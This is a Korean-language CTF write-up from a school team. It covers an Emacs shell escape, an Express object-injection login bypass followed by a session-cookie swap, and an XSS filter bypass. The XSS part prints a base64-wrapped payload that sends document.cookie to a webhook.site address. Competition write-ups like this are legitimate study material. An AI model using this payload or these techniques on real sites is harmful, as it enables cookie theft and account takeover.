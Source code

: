 # 2022 Cyber-Guardians CTF Final

## Dreamhack Profile
School: 덕영고등학교

Team: Asseertive

## Solve list
A - Sanity Check Revenge (@suk-6)

D - xss-1.3 (@suk-6)

E - CProxy: Inject (@fixca)

K - Simple Factor (@suk-6)

M - xss-1.5 (@suk-6)

## Sanity Check Revenge
문제 ssh에 접속하면 GNU Emacs 편집기가 나온다.

ESC + !로 Shell Command 입력창을 불러와서 루트 폴더의 flag 파일을 읽는다.

## xss-1.3
xss-1.3은 문제에서 말하고 있듯 xss 문제이다.

`'`, `"`, `=`를 필터링하고 있다.

필터링을 우회하기 위해 Base64 인코딩으로 해결하였다.

```
<svg/onload=location.href=`https://webhook.site/webhook-id?flag=`.concat(document.cookie)>

to base64(URL-safe) + JS Decoding Code

<script>document.write(atob(`PHN2Zy9vbmxvYWQ9bG9jYXRpb24uaHJlZj1gaHR0cHM6Ly93ZWJob29rLnNpdGUvd2ViaG9vay1pZD9mbGFnPWAuY29uY2F0KGRvY3VtZW50LmNvb2tpZSk-`))</script>
```

## CProxy: Inject
### 1. admin_inject 로 로그인 해보자!
허나 이 작업은 좀 어려웠어요.   

왜냐하면 preparedstatement 기법이어서 "나 ' or 1 = 1 같은 sqli가 먹히기 힘든 구조였어요.   

하지만 preparedstatement 에서도 먹히는 SQLi 가 있다는 것을   

https://core-research-team.github.io/2020-10-01/Expressjs

이 글에서 알게 되었어요.   

즉 pw 안에 다른 object를 넣는 방법을 알게되었고 그 방법은 다음과 같습니다.   

![pwinject](./img/pwinject.png)

이제 여기서 얻은 connect sid를 브라우저로 옮겨주는 작업을 했어요.   

미리 아무계정으로 로그인 해둔 페이지에서 쿠키를 슬쩍 바꿔주면 admin_inject 계정으로 속이기 성공!   

![change_cookie](./img/change_cookie.png)

### 2. 플래그를 따보자!
플래그의 위치는 response 테이블에 있었어요.   

db.js 파일에서 response 테이블에 있는 데이터를 불러올 수 있는 함수가 있었고, 그 함수는 /api/history 엔드포인트에 있다는것을 알게 되었어요.

![dbjsresponse](./img/dbjsresponse.png)   

그리고 이 함수는 여기있는 엔드포인트에서 실행되었어요.

![history_endpoint](./img/history_endpoint.png)   

이거 실행 시키면 되겠지 하고 실행했더니

![get_faked](./img/get_faked.png)

아이고 맙소사 플래그가 안나오는 함수를 실행 시켰어요.   

하지만 response 테이블을 참조해서 데이터를 불러오는 엔드포인트랑 함수는 하나 더 있었어요.   

![actual_function](./img/actual_function.png)

![actual_endpoint](./img/actual_endpoint.png)

그럼 /api/history/ 뒤에 rid의 값을 입력하면 그 특정 데이터를 전부 불러올 수 있으니 실행했고,   

결과는 다음과 같았어요.   

![success_flag](./img/success_flag.png)

## Simple Factor

## xss-1.5